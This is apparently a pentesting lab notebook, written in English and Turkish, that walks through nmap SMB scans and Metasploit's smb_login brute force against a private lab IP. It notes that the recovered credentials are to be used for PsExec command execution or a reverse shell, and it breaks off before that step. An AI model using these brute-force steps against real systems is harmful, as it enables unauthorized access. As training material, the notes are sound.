 
### ● After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system <font color="#ffff00">via PsExec and execute arbitrary system commands or obtain a reverse shell.</font>

---
## Exploit - SMB Brute Force PsExec

![[Pasted image 20240201115951.png]]
```
nmap -p445 --script smb-protocols 10.0.0.242
```

```
nmap -p445 --script smb-* 10.0.0.242
```

![[Pasted image 20240201121235.png]]
## Buna göre Psexec ile biz bruteforce deneyebiliriz.

![[Pasted image 20240201121356.png]]
#### Önemli msfconsole postgresql aktif hale gelmesi için öalışması için

---

![[Pasted image 20240201120155.png]]

```
msf6> use auxiliary/scanner/smb/smb_login 
```

![[Pasted image 20240201120255.png]]

```
use auxiliary/scanner/smb/smb_login

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt

set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```


![[Pasted image 20240201120635.png]]

![[Pasted image 20240201123004.png]]

---

### Auxiliary Module ile Yaptığımız Brute Force ile Credentialleri Bulduk .
### Şimdi Bu cred ile exploit zamanı
